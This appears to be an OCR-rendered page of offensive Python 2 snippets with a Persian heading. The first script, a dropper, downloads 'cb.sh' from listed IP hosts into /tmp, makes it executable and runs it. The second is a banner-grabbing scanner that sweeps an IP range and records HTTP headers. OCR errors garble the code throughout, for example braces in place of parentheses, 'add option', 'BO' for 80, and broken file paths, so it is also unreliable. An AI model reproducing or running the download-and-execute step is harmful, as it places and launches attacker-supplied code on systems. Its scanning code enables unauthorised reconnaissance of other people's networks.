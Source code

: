 ### دریافت فایل از http و اجرای آن

```text
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```

### Receiving the banner in python \(\* the range of ip and ports and its delay should be specified\)

```text
#!/usr/bin/python
import urllib2, sys, time

from optparse import OptionParser

parser = OptionParser()
parser.add option{''-t'', dest=''iprange'', help=''target IP range, i.e.
192.168.1.1-25")
parser.add option(''-p'', dest=''port'',default=''80'',help=''port, default=BO'')
parser.add=option("-d", dest="delay",default=".5",help="delay (in seconds),
default=.5 seconds")

(opts, args) = parser.parse_args()

if opts.iprange is None:
     parser.error("you must supply an IP range")

ips = []
headers={}

octets= opts.iprange.split(' .')

start= octets[3] .split('-') [0]
stop = octets [3]. split ( '-' ) [ 1 ]

for i in range(int(start),int(stop)+1):
     ips.append('%s.%s.%s.%d' % (octets[O],octets[1] ,octets[2],i))
print '\nScanning IPs: %s\n' % (ips)

for ip in ips:
     try:
         response= urllib2.urlopen('http://%s:%s' % (ip,opts.port))
         headers[ip] = dict(response.info())
     except Exception as e:
         headers[ip] = "Error: " + str(e)
```